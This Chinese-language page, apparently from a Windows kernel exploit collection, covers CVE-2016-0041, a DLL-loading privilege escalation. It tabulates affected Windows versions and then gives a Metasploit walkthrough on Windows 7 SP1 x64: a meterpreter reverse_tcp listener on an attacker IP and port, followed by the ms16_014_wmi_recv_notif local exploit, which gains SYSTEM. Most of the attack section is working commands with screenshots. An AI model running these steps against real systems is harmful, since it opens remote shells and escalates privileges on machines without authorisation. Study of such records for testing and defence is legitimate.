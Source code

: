 ### CVE-2016-0041

#### 描述

错误处理了DLL加载，从而允许本地加载获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | &#10004;       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | &#10008; |
| Windows Server 2008 |                  | R2      | SP1    | &#10008; |
| Windows Server 2012 |                  |         |        | &#10008; |
| Windows Server 2012 |                  | R2      |        | &#10008; |
| Windows Vista       |                  |         | SP2    |                          |

#### 利用方式

测试了网上能够找到的c++代码版本，Windows 7 x86/x64都会蓝屏，Windows Server 2008/2012所有版本都没反应，所有这边只能使用MSF版本。MSF版本中只有`payload/windows/x64/meterpreter/reverse_tcp`版本的反弹shell能够利用，`payload/windows/meterpreter/reverse_tcp`版本利用失败

测试系统Windows 7 SP1 x64，首先进行监听

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

可以看到如下的反弹shell

![CVE-2016-0041_win7_sp1_x64_01](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_01.png)

接着使用提权漏洞

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_02.png)

可以看到我们最后成为了SYSTEM权限